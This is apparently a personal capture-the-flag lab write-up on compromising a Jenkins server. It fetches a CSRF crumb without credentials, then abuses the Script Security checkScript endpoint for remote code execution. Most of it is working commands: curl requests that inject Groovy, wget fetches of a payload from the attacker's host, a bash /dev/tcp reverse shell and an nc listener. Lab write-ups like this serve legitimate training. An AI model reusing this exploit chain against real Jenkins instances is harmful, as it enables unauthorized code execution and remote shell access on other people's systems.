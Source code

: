 
# Crumb error identification
Originally I tried this and gave up because I saw the `crumb` error and after initial research came to the conclusion this was unusable due to not having a valid user.
![[Pasted image 20240430161844.png]]
```shell
┌──(kali㉿gobots)-[29Apr2024 16:36:24]-[~/SUT/Genesis_proLab_htB/10.10.110.102]                                                                                                                             
└─$ curl -k -4 -X POST "http://10.10.110.102:8080/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript/" -d "sandbox=True" -d 'value=class abcd{abcd(){def pr
oc="id".execute();def os=new StringBuffer();proc.waitForProcessOutput(os, System.err);throw new Exception(os.toString())}}'                                                                                 
<html>                                                                                                                                                                                                        
<head>                                                                                                                                                                                                      
<meta http-equiv="Content-Type" content="text/html;charset=utf-8"/>                                                                                                                                         
<title>Error 403 No valid crumb was included in the request</title>                                                                                                                                         
</head>                                                                                                                                                                                                     
<body><h2>HTTP ERROR 403</h2>                                                                                                                                                                               
<p>Problem accessing /descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript/. Reason:                                                                         
<pre>    No valid crumb was included in the request</pre></p><hr><a href="http://eclipse.org/jetty">Powered by Jetty:// 9.4.z-SNAPSHOT</a><hr/>

</body>
</html>
```

### Crumb issue links found
- the italisized one is the one that led me to get the crumb
https://stackoverflow.com/questions/16738441/how-to-request-for-the-crumb-issuer-for-jenkins
***https://stackoverflow.com/questions/44711696/jenkins-403-no-valid-crumb-was-included-in-the-request***
https://stackoverflow.com/questions/56179580/jenkins-groovy-pipeline-org-jenkinsci-plugins-scriptsecurity-sandbox-rejectedacc

Using the link above takes you to a stack overflow page talking about the error, if you keep scrolling down the page there is a command that someone recommends that shows how to get the crumb without a password

![[Pasted image 20240430163711.png]]\
### Original
```bash
curl -X POST 'http://localhost:8090/configuration-as-code/export' -H "Jenkins-Crumb:$(curl -s -X GET http://localhost:8090/crumbIssuer/api/json | python3 -c 'import sys, json; print(json.load(sys.stdin)["crumb"])')" -v
```
### Modified curl
- changed IP's to match the jenkins server IPs
```bash
curl -X POST 'http://10.10.110.102:8080/configuration-as-code/export' -H "Jenkins-Crumb:$(curl -s -X GET http://10.10.110.102:8080/crumbIssuer/api/json | python3 -c 'import sys, json; print(json.load(sys.stdin)["crumb"])')" -v
```

![[Pasted image 20240430164113.png]]
This allows us to get a valid crumb to authenticate with to the jenkins server ***WITHOUT CREDENTIALS*** with the command below.
- utilizing the post in the screenshot above also shows how to utilize the crumb with `-H 'Jenkins-Crumb: 7dbe87878c99112eef8e97022ccc7ea4'`

### Command to test Arbitrary Code Execution
```BASH
curl -k -4 -X POST "http://10.10.110.102:8080/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript/" -d "sandbox=True" -d 'value=class abcd{abcd(){"wget 10.10.14.39/bla.txt".execute()}}' -H 'Jenkins-Crumb: 7dbe87878c99112eef8e97022ccc7ea4'
```
### Python server setup 
```bash
python3 -m http.server 8001
```

### Now we know Command execution works time to get a reverse shell
![[Pasted image 20240430170703.png]]
# revshell.sh creation
```bash
bash -i >& /dev/tcp/10.10.14.39/1337 0>&1
```
![[Pasted image 20240430170914.png]]
# wget revshell.sh
- command used to pull the reverse shell over
```bash
┌──(kali㉿gobots)-[30Apr2024 20:57:35]-[~/SUT/Genesis_proLab_htB/10.10.110.102]
└─$ curl -k -4 -X POST "http://10.10.110.102:8080/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript/" -d "sandbox=True" -d 'value=class abcd{abcd(){"wget 10.10.14.39:8001/revshell.sh".execute()}}' -H 'Jenkins-Crumb: 7dbe87878c99112eef8e97022ccc7ea4'
```
![[Pasted image 20240430171519.png]]
# revshell.sh execution
- note that in order to get it to the shell to actually execute must run `bash` in front
```bash
┌──(kali㉿gobots)-[30Apr2024 21:15:46]-[~/SUT/Genesis_proLab_htB/10.10.110.102]
└─$ curl -k -4 -X POST "http://10.10.110.102:8080/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript/" -d "sandbox=True" -d 'value=class abcd{abcd(){"bash ./revshell.sh".execute()}}' -H 'Jenkins-Crumb: 7dbe87878c99112eef8e97022ccc7ea4'
<div/>                          
```
setting up listener
```bash
┌──(kali㉿gobots)-[30Apr2024 21:15:59]-[~/SUT/Genesis_proLab_htB/10.10.110.102]                       
└─$ nc -lvnp 1337                                                                                     
listening on [any] 1337 ...  
```
![[Pasted image 20240430180257.png]]

